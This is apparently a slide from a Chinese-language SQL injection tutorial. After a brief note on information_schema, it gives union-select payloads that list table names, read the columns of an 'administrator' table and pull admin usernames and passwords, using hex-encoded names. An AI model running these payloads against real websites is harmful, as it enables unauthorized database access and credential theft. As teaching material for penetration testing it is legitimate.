

information_schema？	SCHEMA_NAME表示数据库名称
					TABLE_NAME表示表的名称
					COLUMN_NAME表示字段名
4、爆表名
select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=0x68706F6C

5、表中字段名
select 1,2,3,COLUMN_NAME,4,5 from
information_schema.COLUMNS where TABLE_NAME=0x61646D696E6973747261746F72 limit 1,1

6、获取管理员账号/密码（有可能加密了）
select 1,2,3,name,5,password,7,8 from user